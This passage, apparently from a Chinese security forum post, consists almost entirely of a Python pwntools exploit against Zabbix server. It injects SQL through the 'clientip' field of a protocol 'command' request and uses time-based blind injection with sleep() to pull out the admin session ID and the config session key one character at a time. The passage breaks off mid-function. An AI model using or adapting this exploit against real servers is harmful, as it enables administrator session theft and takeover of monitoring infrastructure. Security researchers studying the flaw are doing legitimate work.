 ![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-7655e4ba2102ac084bb81c9fd2b6afb30416b53a.png)

因此我们可以修改代码如下：

```python
import json
import argparse
from pwn import *
from datetime import datetime

def send_message(ip, port, sid, hostid, injection):
    zbx_header = "ZBXD\x01".encode()
    message = {
        "request": "command",
        "sid": sid,
        "scriptid": "3",
        "clientip": "' + " + injection + "+ '",
        "hostid": hostid
    }
    message_json = json.dumps(message)
    message_length = struct.pack('<q', len(message_json))
    message = zbx_header + message_length + message_json.encode()
    #print("Sending message %s" % message)
    r = remote(ip, port, level='debug')
    r.send(message)
    response = r.recv(1024)
    r.close()
    print(response)

def extract_admin_session_id(ip, port, sid, hostid, time_false, time_true):
    session_id = ""
    token_length = 32
    for i in range(1, token_length+1):
        for c in string.digits + "abcdef":
            print("\n(+) trying c=%s" % c, end="", flush=True)
            before_query = datetime.now().timestamp()
            query = "(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),%d,1))=%d) THEN sleep(%d) ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)
            send_message(ip, port, sid, hostid, query)
            after_query = datetime.now().timestamp()
            if time_true > (after_query-before_query) > time_false:
                continue
            else:
                session_id += c
                print("(+) session_id=%s" % session_id, end="", flush=True)
                break
    print("\n")
    return session_id

def extract_config_session_key(ip, port, sid, hostid, time_false, time_true):
    token = ""
    token_length = 32
    for i in range(1, token_length+1):
        for c in string.digits + "abcdef":
            print("\n(+) trying c=%s" % c, end="", flush=True)
            before_query = datetime.now().timestamp()
            query = "(select CASE WHEN (ascii(substr((select session_key from config),%d,1))=%d) THEN sleep(%d) ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)
            send_message(ip, port, sid, hostid, query)
            after_query = datetime.now().timestamp()
            if time_true > (after_query-before_query) > time_false:
                continue
            else:
                token += c
```